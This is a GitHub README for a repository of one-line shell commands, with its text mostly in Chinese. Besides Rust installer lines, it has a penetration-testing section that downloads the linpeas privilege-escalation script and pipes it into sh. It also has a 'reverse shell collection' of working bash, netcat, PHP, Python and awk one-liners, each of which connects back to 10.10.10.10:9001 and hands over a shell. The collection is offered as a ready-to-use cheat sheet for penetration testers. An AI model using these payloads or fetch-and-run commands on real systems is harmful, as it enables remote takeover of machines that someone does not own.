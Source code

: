 # Oneliner
---
这是一个 包含了 只需要一行 instruction sequence 即可完成目标的 仓库.

将每一条记录称为 liner

这个仓库 涵盖了很多方面 如下载 安装 POC验证 EXP利用 等.

仓库遵循 content first 原则.

由于项目的特殊性, 参加项目请使用issue 来提供您的 liner

格式要求
````
## category <!-- 分类, 也是liner的 头部 --> <!-- 由管理员 识别并合并 -->
### title
> ***<date YY-mm-dd>: <author|mail>***
[> **<description>**] <!-- 描述信息 -->
```lang <!-- 该部分可有多个 -->
instruction
```
--- <!-- 当前liner的 分割线 也是尾部 -->
````
## 目录
 * [Rust](#rust)
   * [Linux安装Rust环境](#linux安装rust环境)
 * [渗透测试](#渗透测试)
   * [Linpeas.sh枚举提权信息](#linpeassh枚举提权信息)
   * [反弹shell合集](#反弹shell合集)

<!-- 列表头 -->
## Rust
### Linux安装Rust环境
> ***2024-6-25: fb0sh***
```bash
curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
```
> **(中国区环境)**
```bash
export RUSTUP_DIST_SERVER="https://rsproxy.cn";export RUSTUP_UPDATE_ROOT="https://rsproxy.cn/rustup";curl --proto '=https' --tlsv1.2 -sSf https://rsproxy.cn/rustup-init.sh | sh
```
---


## 渗透测试
### Linpeas.sh枚举提权信息
> ***2024-6-25: fb0sh***
```bash
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
> **python2**
```bash
python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```
> **python3**
```bash
python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"
```
--- 

### 反弹shell合集
> ***2024-6-25: fb0sh***

> **bash**
```bash
/bin/bash -i >& /dev/tcp/10.10.10.10/9001 0>&1
```
> **nc**
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.10.10 9001 >/tmp/f
```
```bash
nc 10.10.10.10 9001 -e /bin/bash
```
> **php**
```php
php -r '$sock=fsockopen("10.10.10.10",9001);popen("/bin/bash <&3 >&3 2>&3", "r");'
```
> **python**
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.10",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
```python3
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.10.10",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```
> **awk**
```bash
awk 'BEGIN {s = "/inet/tcp/0/10.10.10.10/9001"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null
```
--- 

<!-- 列表尾 -->
